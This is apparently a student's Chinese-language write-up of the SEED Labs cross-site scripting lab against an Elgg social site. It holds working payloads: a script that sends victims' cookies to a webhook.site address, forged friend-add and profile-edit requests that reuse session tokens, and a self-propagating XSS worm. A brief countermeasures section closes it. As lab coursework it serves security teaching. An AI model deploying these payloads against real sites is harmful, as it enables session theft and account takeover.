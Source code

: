# XSS 实验
`注①：我在本机启动SEED Lab中的服务，在公网环境完成本次lab，使用的工具链稍有不同，但完成的内容是一致的`

## 3.1 Preparation: Getting Familiar with the "HTTP Header Live" tool

这一步可以通过浏览器自带的开发者工具完成，也可以通过抓包完成，这里不再赘述。 

## 3.2 Task 1: Posting a Malicious Message to Display an Alert Window

XSS的payload是
```html
<script type="text/javascript" src="http://[YOUR VPS LINK]/315/xss.js" \>
```

VPS上的文件是

```js
alert("XSS");
```

可以完成弹窗的POC

![图 2](images/33b466baa51d2f14ff3beb3fa5f9a45371fe9377e639722ed2d53e3bb6f0c13b.png)  

## 3.3 Task 2: Posting a Malicious Message to Display Cookies
将VPS的文件更新为

```js
alert(document.cookie);
```

可以完成获取cookie的POC
![图 3](images/b76ec1ba912476175a185f43acfbadd64c699d5e863e0f2916014795154b6de8.png)  

### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

我使用 http://webhook.site/ 作为接受反射cookie的探针，将VPS的文件更新为

```js
new Image().src="http://webhook.site/c42165ff-f417-4e63-bf7b-cc28e3e6c936?cookie="+document.cookie
```

可以看到webhook接收到了cookie，出于隐私考虑去掉了IP和时间戳。

![图 4](images/13d68f045351e667ea7bf658150888b9e986047ca7ec386a66542539d7e06c4a.png)  


### 3.5 Task 4: Becoming the Victim’s Friend

这一步可以看js也可以看请求速通，以下是GET的内容

![图 5](images/c70205594517b8d4108845a0ea7107889b355b7a2b5ecb3c986f1c55b4d6236f.png)  

自己的用户ID可以注册小号看，也可以在设置页里的BOOKMARK看link指向的id。

还可以直接从 `elgg.session.user.guid` 拿
这里sammy的是47。  


```js
window.onload = function () {
    var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts="+elgg.security.token.__elgg_ts+"&__elgg_token="+elgg.security.token.__elgg_token
    var Ajax=new XMLHttpRequest();
    Ajax.open("GET",sendurl,true);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send();
}

```

可以看到Alice每次访问都会触发add请求，这里的friend=47是sammy的id。

![图 1](images/a5574bd3e278bedcf2e79e40f09e3d8febec8935e80849112560df67ef49dddb.png)  

Questions. 
- Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?
   + 两处是时间戳和自己的cookie 
      * 自己的cookie用于验证身份
      * 时间戳干的用处取决于设计者，总之尽可能仿照正常的请求即可
- Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
   + 答：是可以的，Editor只是前端修改输入的内容，可以篡改请求或者直接发送请求修改profile，以下是示例，可以看到description是实际发送的包，篡改或者手动构造即可：
   ```
   __elgg_token=eCbWFZi1QPr3A2UJIlbCwg&__elgg_ts=1670168014&name=Samy
   &description=
   %3Cscript+src%3D%22http%3A%2F%2F[YOUR VPS]%2F315%2Fxss.js%22+type%3D%22text%2Fjavascript%22%3E%3C%2Fscript%3E
   &accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2&guid=47
   ```


##  Task 5: Modifying the Victim’s Profile


根据上文Question2的回答构造修改profile的包：

```js
window.onload = function () {
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";
    var content="__elgg_token="+elgg.security.token.__elgg_token+"&__elgg_ts="+elgg.security.token.__elgg_ts+"&guid="+elgg.session.user.guid+"&name="+elgg.session.user.name+"&description=%3Cscript+src%3D%22http%3A%2F%2F[YOUR VPS]%2F315%2Fxss.js%22+type%3D%22text%2Fjavascript%22%3E%3C%2Fscript%3E&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2";
    if(elgg.session.user.guid != 47){
        var Ajax = new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}

```

可以看到访问samy主页就会更新自己的profile，且进入edit会发现内容被正确更新成了恶意地址。

![图 2](images/00548e0415a89b4157e35b5c5a9652fc428d5a379a39f1f01db9be4f40635c01.png)  


- Question 3: Why do we need Line ➀? Remove this line, and repeat your attack. Report and explain your observation
   + 用处是让XSS不要改攻击者的profile...
   + 去掉之后自己访问主页或者预览就会被改。  


## Task 6: Writing a Self-Propagating XSS Worm

```html
<script id="worm" type="text/javascript">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>";
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 

window.onload = function () {
    var sendurl="http://www.xsslabelgg.com/action/profile/edit";
    var content="__elgg_token="+elgg.security.token.__elgg_token+"&__elgg_ts="+elgg.security.token.__elgg_ts+"&guid="+elgg.session.user.guid+"&name="+elgg.session.user.name+"&description="+encodeURI(headerTag+jsCode+tailTag).split("&").join("%26");+"&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2";
    if(elgg.session.user.guid != 47){
        var Ajax = new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);
    }
}
</script>
```

截图是访问samy profile之后的alice edit界面，可见通过DOM完美修改了profile。

![图 3](images/99082a745ea168a77d495584de3c315062f7d46d0af29e95f3105333af629666.png)  


## Task 7: Countermeasures


只开插件

![图 4](images/3fffe259a17cfe150a7fc58f92932ba56bc44f0d41128be37764ae768fc9df9c.png)  


全开

![图 3](images/25b7633ff6035eb38789288ae7091571d6c85e3a27cdd446a8474e2afa0fafbf.png)  


效果看起来是一样的，都可以正常转义内容并去掉script标签。


